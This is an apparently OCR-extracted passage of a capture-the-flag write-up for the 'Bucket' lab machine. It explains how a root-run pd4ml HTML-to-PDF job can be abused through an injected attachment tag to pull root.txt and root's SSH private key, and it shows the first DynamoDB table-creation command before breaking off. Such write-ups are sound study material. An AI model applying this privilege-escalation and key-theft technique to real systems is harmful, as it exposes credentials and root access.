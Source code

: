 - but there there is only one table i already saw that
- I think i need to create a table table before trigger that script
- so i need to create a `alerts` table which contains item `Ransomwar`

- **line 20-23**, foreach loop through the `$iterator` veriable

	  foreach ($iterator as $item) {
	                          $name=rand(1,10000).'.html';
	                          file_put_contents('files/'.$name,$item["data"]);
	                  }

	- this code loop data that iterate from that table and set on `$item` veriable
	- the `$item` data go inside the php function `file_put_contents` , [php documentation](https://www.php.net/manual/en/function.file-put-contents.php)
	- this function write `$item` variable data inside `files` directory as the name that `$name` variable defines `example-name: 4141.html`

	  	  roy@bucket:/var/www/bucket-app$ ls -la | grep files
		  drwxr-x---+  2 root root   4096 Sep 23 03:29 files

- **line 24**, passthru function, [php documentation](https://www.php.net/manual/en/function.passthru.php)

	  passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");

	- after `example-name: 4141.html` file generated, this file go through that php function `passthru`
	- this function copy `pd4ml_demo.jar` library form `bucket-app` directory

		  roy@bucket:/var/www/bucket-app$ ls -la | grep pd4ml
		  `-rwxr-x---+  1 root root 808729 Jun 10 11:50 pd4ml_demo.jar`

	- and then execute `pd4cmd` from `pd4ml` library
	- **PD4ML** is a Java library, which makes possible to create PDF documents from Java and JSP applications using HTML as template language
	- here is the **pd4cmd** [documentation](https://pd4ml.com/html-to-pdf-command-line-tool.htm) from pd4ml tool
	- so what is happening here is that the `pd4cmd` convert html file into a pdf file and store in the `files/` direcotry as `result.pdf`

### Exploit Surface

- reading through the pd4ml documentation i found a `PDF Attachments` feature . [PDF Attachments doc](https://pd4ml.com/cookbook/pdf-attachments.htm)
- i can use this feature to import `root.txt` as well as `id_rsa` in `result.txt` because this library run as root
- for this to work i need to set `pd4ml:attachment` function inside the html file
- i can do that by setting `pd4ml:attachment` function as data in the table `alerts` inside item `Ransomware` 

# Root Privesc

**First**, create `alerts` table , [template](awsApiTmpl/createTable-tmpl.js) for webshell
```bash
aws dynamodb create-table \
    --table-name alerts \
    --attribute-definitions \
        AttributeName=title,AttributeType=S \
    --key-schema \
        AttributeName=title,KeyType=HASH \
--provisioned-throughput \
        ReadCapacityUnits=10,WriteCapacityUnits=5 \
        --endpoint-url=http://s3.bucket.htb
```
